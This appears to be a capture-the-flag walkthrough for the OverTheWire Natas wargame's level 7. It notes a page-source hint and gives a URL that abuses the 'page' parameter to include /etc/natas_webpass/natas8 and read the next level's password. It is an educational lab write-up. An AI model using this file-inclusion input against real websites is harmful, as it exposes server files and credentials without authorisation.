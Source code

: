 ## Level 8

**URL**: [Level 7](http://natas7.natas.labs.overthewire.org/)

 1. We have 2 links ([Home](http://natas7.natas.labs.overthewire.org/index.php?page=home)  [About](http://natas7.natas.labs.overthewire.org/index.php?page=about)).
	 ```
	 http://natas7.natas.labs.overthewire.org/index.php?page=home
	 http://natas7.natas.labs.overthewire.org/index.php?page=about
	 ```
 2. The following line in page source represents a password's location:
	 ``` html
	 <!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
	 ```
	 	 
 3. Go to http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
